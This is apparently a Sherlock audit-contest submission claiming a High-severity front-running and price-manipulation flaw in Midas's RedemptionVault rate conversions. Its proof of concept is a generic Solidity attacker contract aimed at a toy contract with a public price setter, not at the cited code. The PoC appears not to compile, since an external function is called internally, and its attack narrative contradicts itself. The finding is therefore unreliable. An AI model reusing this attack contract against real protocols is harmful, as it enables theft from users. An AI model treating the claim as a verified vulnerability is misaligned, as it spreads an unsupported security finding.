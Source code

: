 Sweet Hickory Pangolin

High

# Front-Running and Price Manipulation at _convertMTokenToUsd and _convertUsdToToken functions for RedemptionVault contract

### Summary

Line: https://github.com/sherlock-audit/2024-08-midas-minter-redeemer/blob/main/midas-contracts/contracts/RedemptionVault.sol#L151
Line: https://github.com/sherlock-audit/2024-08-midas-minter-redeemer/blob/main/midas-contracts/contracts/RedemptionVault.sol#L154

The rates for mToken and the output token are fetched via the _convertMTokenToUsd and _convertUsdToToken functions during a transaction. If there is a delay between fetching these rates and performing the final transfer, an attacker could manipulate the price feed data (if it's not secured) to benefit from the price difference.

### Root Cause

Price manipulation

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

_No response_

### Impact

An attacker could manipulate the price feed data (if it's not secured) to benefit from the price difference.

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IToken {
    function transfer(address recipient, uint256 amount) external returns (bool);
    function balanceOf(address account) external view returns (uint256);
}

contract VulnerableContract {
    IToken public token;
    uint256 public price; // price of the token in some base currency, e.g., USD

    constructor(IToken _token, uint256 _price) {
        token = _token;
        price = _price;
    }

    function buyToken(uint256 amount) external payable {
        require(msg.value >= amount * price, "Not enough Ether sent");
        token.transfer(msg.sender, amount);
    }

    function updatePrice(uint256 newPrice) external {
        // Assume this function is publicly callable and price is based on an oracle
        price = newPrice;
    }
}

```
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./VulnerableContract.sol";

contract FrontRunningAttacker {
    VulnerableContract public vulnerableContract;
    IToken public token;
    address public owner;

    constructor(VulnerableContract _vulnerableContract, IToken _token) {
        vulnerableContract = _vulnerableContract;
        token = _token;
        owner = msg.sender;
    }

    function manipulatePrice(uint256 newPrice) external {
        require(msg.sender == owner, "Not authorized");

        // Step 1: Manipulate the price in the vulnerable contract
        vulnerableContract.updatePrice(newPrice);
    }

    function frontRun(uint256 amountToBuy, uint256 legitimatePrice, uint256 manipulatedPrice) external payable {
        require(msg.sender == owner, "Not authorized");

        // Step 2: Manipulate the price
        manipulatePrice(manipulatedPrice);

        // Step 3: Buy tokens at the manipulated price
        vulnerableContract.buyToken{value: msg.value}(amountToBuy);

        // Step 4: Reset the price to legitimate value
        vulnerableContract.updatePrice(legitimatePrice);

        // Step 5: Transfer the bought tokens to the attacker
        token.transfer(owner, token.balanceOf(address(this)));
    }

    receive() external payable {}
}
```
Deploy the VulnerableContract with an initial price (e.g., 1 Ether per token).
Deploy the FrontRunningAttacker contract with references to the VulnerableContract and the token contract.
The attacker observes a legitimate user's transaction to buy tokens at the current price.
The attacker calls frontRun to:
Manipulate the price to a lower value using manipulatePrice.
Buy tokens at the manipulated, lower price.
Reset the price to the original value.
The legitimate user's transaction is executed, but the price has already been restored, so they receive fewer tokens than expected, while the attacker profits from the difference.

### Mitigation

Mitigation: Consider using Chainlink’s latestAnswer with a time-weighted average price (TWAP) or implementing a check to ensure the rate hasn’t drastically changed between the time it was first fetched and when the transfer occurs.